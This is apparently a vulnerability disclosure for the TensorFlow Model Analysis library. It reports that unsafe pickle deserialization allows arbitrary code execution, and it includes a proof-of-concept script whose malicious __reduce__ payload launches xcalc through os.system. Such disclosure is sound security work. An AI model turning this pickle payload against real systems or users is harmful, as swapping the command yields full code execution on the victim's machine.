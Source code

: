 # Description
TensorFlow Model Analysis (TFMA) is a library for evaluating TensorFlow models
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install tensorflow-model-analysis')
from tensorflow_model_analysis.contrib import export
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#exploiting
dumps = pickle.dumps(ArbitraryCode())
export.deserialize_feature_metadata(dumps)
```
* `pip3 install tensorflow-model-analysis`
* `python3 exploit.py`
